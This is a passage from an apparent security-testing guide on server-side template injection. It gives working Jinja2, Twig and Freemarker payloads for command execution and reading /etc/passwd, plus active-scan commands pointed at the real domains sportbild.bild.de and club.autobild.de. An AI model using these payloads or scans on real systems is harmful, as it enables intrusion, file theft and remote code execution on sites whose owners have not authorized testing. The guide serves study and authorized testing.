 4. **Confirm It’s SSTI**:
   - **SSTI**: Payloads like `{{7*7}}` evaluate to `49`, or `{{config}}` leaks server data.
   - **Not HTML Injection**: HTML tags (e.g., `<b>Test</b>`) render as HTML, not template code.
   - **Not XSS**: Requires client-side JavaScript execution (e.g., `<script>`), not server-side evaluation.
   - Test engine-specific payloads:
     - Jinja2: `{{''.__class__.__mro__[1].__subclasses__()}}`
     - Twig: `{{app.request.server.all|join(',')}}`
     - Freemarker: `${"java.lang.Runtime".getRuntime().exec("id")}`

5. **Automate with Tools**:
   - OWASP ZAP active scan:
     ```bash
     zap-cli active-scan --recursive https://sportbild.bild.de
     ```
   - Nuclei with SSTI templates:
     ```bash
     nuclei -u https://sportbild.bild.de -t injection/ssti
     ```

**How to Definitively Confirm SSTI**:
- **Evaluation Check**: Mathematical expressions (e.g., `{{7*7}}` → `49`) or object access (e.g., `{{config}}`) confirm server-side template execution.
- **Engine Fingerprinting**: Errors or specific outputs (e.g., Jinja2’s `__class__`) identify the engine.
- **No Client-Side Execution**: Unlike XSS, SSTI doesn’t rely on browser JavaScript.
- **Response Analysis**: Use Burp Suite to verify payload evaluation in the response.

---

### Impact of SSTI

- **Remote Code Execution (RCE)**: Execute OS commands (e.g., `whoami`, `rm -rf /`).
- **Data Leakage**: Access server variables, files, or database credentials.
- **Privilege Escalation**: Gain admin access by manipulating server state.
- **Server Compromise**: Install malware or backdoors.
- **Compliance Violations**: Data leaks violate GDPR, CCPA, etc.
- **Severity**: Critical (OWASP A1: Injection), due to RCE potential.

---

### Scenario 2: SSTI in a User Profile

**Context**: A profile page on `club.autobild.de` allows users to set a bio, rendered by a Twig template without sanitization.

**How It Leads to Vulnerability**:
- The bio is passed to Twig’s `render` function, evaluating template code.
- An attacker injects Twig syntax to access server data or execute commands.

**Attacker Manipulation**:
1. Attacker creates an account on `club.autobild.de`.
2. Sets bio to:
   ```html
   {{7*7}}
   ```
3. Profile shows `49`, confirming Twig SSTI.
4. Attacker escalates with:
   ```html
   {{_self.env.getTemplate('../../../../etc/passwd')}}
   ```
   - Leaks `/etc/passwd`, exposing system users.
5. For RCE, the attacker tries:
   ```html
   {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
   ```
   - Executes `whoami`, revealing `www-data`.
